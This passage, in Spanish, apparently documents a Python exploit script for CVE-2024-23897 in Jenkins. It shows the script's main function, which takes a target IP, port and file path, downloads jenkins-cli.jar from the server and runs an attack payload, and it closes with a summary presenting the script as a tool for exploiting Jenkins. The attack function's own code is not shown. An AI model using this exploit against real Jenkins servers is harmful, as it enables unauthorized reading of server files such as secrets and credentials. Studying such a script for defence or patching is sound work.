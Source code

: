 Esta función ejecuta un comando para conectar un nodo Jenkins utilizando el archivo `jenkins-cli.jar`. Después de ejecutar el comando, elimina el archivo JAR. Si hay un error en la ejecución, muestra un mensaje de error.

## Función `main`

```python
def main():
    """
    Función principal que analiza los argumentos y ejecuta las funciones correspondientes.
    """
    parser = argparse.ArgumentParser(description="\n[+] Exploit para explotar el CVE-2024-23897\n")
    parser.add_argument("ip", type=str, help="\n[+] Dirección IP del servidor Jenkins\n")
    parser.add_argument("puerto", type=str, help="\n[+] Puerto del servidor de Jenkins\n")
    parser.add_argument("ruta", type=str, help="\n[+] Ruta para leer el archivo\n")
    args = parser.parse_args()

    ip = args.ip
    puerto = args.puerto
    ruta = args.ruta

    banner()

    if descargar_jar(ip, puerto):
        attack_payload(ip, puerto, ruta)
    else:
        sys.exit(1)
```

La función principal del script:
1. Analiza los argumentos de línea de comandos (`ip`, `puerto`, `ruta`).
2. Llama a la función `banner` para imprimir el banner.
3. Llama a la función `descargar_jar` para descargar el archivo JAR.
4. Si la descarga es exitosa, llama a la función `attack_payload` para ejecutar el payload; si no, finaliza el script con un código de salida `1`.

## Ejecución del Script

```python
if __name__ == '__main__':
    main()
```

Este bloque asegura que la función `main` se ejecute solo si el script se ejecuta directamente, no si se importa como módulo.

### Resumen

Este script es una herramienta para explotar una vulnerabilidad en Jenkins. Descarga un archivo JAR desde un servidor Jenkins y utiliza ese archivo para ejecutar un payload que conecta un nodo Jenkins. Los argumentos necesarios (`ip`, `puerto`, `ruta`) se proporcionan a través de la línea de comandos.

